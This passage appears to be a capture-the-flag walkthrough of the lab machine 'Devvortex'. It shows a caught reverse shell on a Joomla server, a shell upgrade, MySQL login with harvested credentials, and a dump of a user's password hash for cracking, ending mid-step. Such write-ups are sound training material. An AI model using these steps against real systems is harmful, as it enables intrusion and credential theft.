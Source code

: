 This will execute your written command and on `NetCat`you will get the connection.
```bash
nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.242] 47212
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/sh")'
$ ls
ls
LICENSE.txt    cli                includes   media       tmp
README.txt     components         index.php  modules     web.config.txt
administrator  configuration.php  language   plugins
api            htaccess.txt       layouts    robots.txt
cache          images             libraries  templates
```
To read the file we have to become the `logan`user.
```bash
$ ss -tlpn
ss -tlpn
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    Process
LISTEN    0         70               127.0.0.1:33060            0.0.0.0:*
LISTEN    0         151              127.0.0.1:3306             0.0.0.0:*
```
This shows that there is `mysql`database open locally on `3306`port so we need to access it.
It will need password and username so we have to find it. It is located in `configuration.php` OR you can use the already gotten password and username: `lewis`and `P4ntherg0t1n5r3c0n##`.
First do this:
```bash
$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
 # and then
www-data@devvortex:~/dev.devvortex.htb$ mysql -u lewis -p
mysql -u lewis -p
Enter password: P4ntherg0t1n5r3c0n##

Welcome
```
Then with basic knowledge of `mysql`commands find the password for `logan`:
```sql
mysql> Show databases;
Show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
mysql> use joomla
mysql> show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
........
........
| sd4fg_users                   |
..............
..........
..........
mysql> select * from sd4fg_users;
logan   $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
```
With `hashid`we learn what type of hash it is, and then use `hashcat`on it:
```bash
```

[CVE-2023-23752]: 1